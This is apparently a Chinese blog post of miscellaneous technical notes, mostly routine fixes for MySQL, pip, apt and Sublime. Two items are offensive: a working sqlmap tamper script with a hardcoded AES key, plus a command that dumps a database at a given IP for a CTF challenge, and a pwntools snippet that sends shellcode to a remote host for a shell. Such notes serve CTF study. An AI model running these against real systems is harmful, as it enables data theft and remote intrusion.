 ```yaml
---
layout: post
title: 杂记
subtitle: "记录平时一些小问题"
author: "bo"
header-img: "img/post-bg-halting.jpg"
header-mask: 0.3
---
```

#### 1. 关于自己本地的mysql
 因为自己偷懒，所以windows上面直接用的phpstudy，但是由于自己以前装过mysql，所以phpstudy集成的mysql启动不了，这时候，应该直接
```
               sc delete mysql#这样能删除原来的服务，之后可以重新安装
```
#### 2. pip 升级：
```
               python -m pip install --upgrade pip
```
#### 3. 这里关于上次湖湘复赛 web1   

   i. 可以直接写一个temper，用sqlmap跑一下就行了


```python 
import base64
from Crypto.Cipher import AES

from lib.core.enums import PRIORITY
from lib.core.settings import UNICODE_ENCODING


__priority__ = PRIORITY.LOWEST

def dependencies():
    pass

def encrypt(text):
    padding = ''
    key = 'ydhaqPQnexoaDuW3'
    iv = '2018201920202021'
    pad_it = lambda s: s+(16 - len(s)%16)*padding
    cipher = AES.new(key, AES.MODE_CBC, iv)
    text = text + 'hxb2018'
    return base64.b64encode(base64.b64encode(cipher.encrypt(pad_it(text))))

def tamper(payload, **kwargs):

    return encrypt(payload)
```
//hxb.py
```
sqlmap -u "http://47.107.236.42:49882/news/list.php?id=1" --tamper hxb.py --dump-all -T "notice,notice2,stormgroup_member" -D mozhe_discuz_stormgroup
```
之后就可以跑出来了。

#### 4. 关于sublime windows环境 python无法正确处输入的问题。   
安装sublimeREPL这个插件，然后配置好快捷方式，已配，记得按F5.

#### 5. linux上单次使用代理   
    proxychains + 命令

#### 6. apt 命令被锁  
```
    sudo rm /var/cache/apt/archives/lock
    sudo rm /var/lib/dpkg/lock
```
#### 7. pwntools使用

```python
from pwn import *
context(arch = 'i386', os = 'linux')
sh = remote('ip', 'port')
sh.sendline(asm(shellcraft.sh()))
sh.interactive()
```
这是最基本的流程。
>context(arch = 'i386', os = 'linux')     
    用来设置目标机信息
>sh = remote('ip', 'port')   
    建立一个远程连接，也可以本地调试,比如:
>sh = process('./XXX')

>asm("str")   
    接受一个字符串，能转成机器码

>shellcraft.sh()
    自动产生shellcode   
    shellcraft是一个模块，包含产生shellcode的函数
